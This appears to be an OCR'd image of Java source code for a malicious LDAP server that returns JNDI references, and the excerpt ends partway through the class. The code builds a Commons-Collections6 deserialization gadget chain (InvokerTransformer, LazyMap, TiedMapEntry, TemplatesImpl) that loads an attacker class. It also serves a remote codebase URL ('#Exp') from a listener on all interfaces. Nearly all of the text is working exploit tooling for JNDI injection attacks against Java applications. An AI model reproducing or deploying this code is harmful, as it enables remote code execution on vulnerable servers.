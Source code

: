 ```java
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;

/**
 * LDAP server implementation returning JNDI references
 *
 * @author mbechler
 *
 */
public class LDAPServer {

    private static final String LDAP_BASE = "dc=example,dc=com";
    static byte[] getCommonsCollections6(){
        TemplatesImpl templates = Utils.createTemplates("Calc.class");
        Transformer invokerTransformer = new InvokerTransformer("getClass", null, null);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, invokerTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap, templates);
        HashMap expMap = new HashMap();
        expMap.put(tiedMapEntry, "value");
        outerMap.clear();
        CommonUtil.setFieldValue(invokerTransformer, "iMethodName",
                "newTransformer");
        return CommonUtil.serialize(expMap);
    }

    public static void main ( String[] args ) {
//        int port = 1389;
//        if ( args.length < 1 || args[ 0 ].indexOf('#') < 0 ) {
//            System.err.println(LDAPServer.class.getSimpleName() + " <codebase_url#classname> [<port>]"); //$NON-NLS-1$
//            System.exit(-1);
//        }
//        else if ( args.length > 1 ) {
//            port = Integer.parseInt(args[ 1 ]);
//        }

        String[] tmpArgs = new String[]{"http://127.0.0.1:7777/#Exp"};
        int port=8888;

        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen", //$NON-NLS-1$
                    InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(tmpArgs[0])));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
            ds.startListening();

        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

```